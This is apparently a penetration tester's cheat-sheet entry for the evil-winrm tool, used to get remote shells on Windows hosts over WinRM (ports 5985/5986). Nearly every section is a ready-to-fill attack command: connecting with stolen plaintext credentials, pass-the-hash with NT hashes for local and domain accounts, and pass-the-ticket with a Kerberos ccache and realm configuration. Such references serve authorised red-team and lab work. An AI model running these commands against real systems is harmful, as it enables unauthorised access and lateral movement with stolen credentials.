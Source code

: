 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## _desc
```
```

## _repo
```
```

## _doc
```
```

## _install
```
gem install evil-winrm
```

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p '<password>'
```


## local account with creds (over TLS)
```bash
evil-winrm -i <ip> -u <user> -p '<password>' --ssl -Port 5986
```

## domain account with creds
```bash
evil-winrm -i <ip> -u '<domain_netbios>\<user>' -p '<password>'
```

## local account pth
```bash
evil-winrm -i <ip> -u <user> -H <nt_hash>
```

## domain account pth
```bash
evil-winrm -i <ip> -u '<domain_netbios>\<user>' -H <nt_hash>
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
export KRB5CCNAME=<ccache> && evil-winrm -i <target_fqdn>  --realm <REALM_FQDN>
```